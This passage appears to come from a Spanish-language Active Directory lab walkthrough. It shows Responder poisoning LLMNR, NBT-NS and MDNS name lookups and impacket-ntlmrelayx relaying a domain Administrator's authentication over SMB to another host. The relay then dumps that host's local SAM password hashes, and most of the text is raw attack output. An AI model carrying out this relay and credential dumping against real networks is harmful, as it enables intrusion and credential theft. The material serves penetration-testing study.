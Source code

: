 ```
[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.5.205]
    Responder IPv6             [fe80::126b:3f32:5e50:9e6]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-5S54Y5ALWCG]
    Responder Domain Name      [0F4A.LOCAL]
    Responder DCE-RPC Port     [49200]

[+] Listening for events...
```

Ahora si nosotros con cualquier usuario, por ejemplo el `Administrador` en el `PowerShell` del `DC01` del `Administrador` ejecuta una ruta que no existe:

```powershell
dir \\fhuisjf\c$
```

Le fallara y si nos volvemos a donde tenemos las 2 herramientas veremos lo siguiente:

> Responder

```
[*] [NBT-NS] Poisoned answer sent to 192.168.5.5 for name FHUISJF (service: File Server)
[*] [LLMNR]  Poisoned answer sent to fe80::2129:cfa3:af2a:edd8 for name fhuisjf
[*] [LLMNR]  Poisoned answer sent to 192.168.5.5 for name fhuisjf
[*] [MDNS] Poisoned answer sent to 192.168.5.5     for name fhuisjf.local
[*] [MDNS] Poisoned answer sent to 192.168.5.5     for name fhuisjf.local
[*] [MDNS] Poisoned answer sent to fe80::2129:cfa3:af2a:edd8 for name fhuisjf.local
[*] [MDNS] Poisoned answer sent to fe80::2129:cfa3:af2a:edd8 for name fhuisjf.local
[*] [LLMNR]  Poisoned answer sent to 192.168.5.5 for name fhuisjf
[*] [LLMNR]  Poisoned answer sent to fe80::2129:cfa3:af2a:edd8 for name fhuisjf
```

> impacket-ntlmrelayx

```
[*] Received connection from CORP/Administrator at DC01, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from CORP/ADMINISTRATOR@192.168.5.5 controlled, attacking target smb://192.168.5.208
[*] Authenticating against smb://192.168.5.208 as CORP/ADMINISTRATOR SUCCEED
[*] All targets processed!
[*] SMBD-Thread-5 (process_request_thread): Connection from CORP/ADMINISTRATOR@192.168.5.5 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```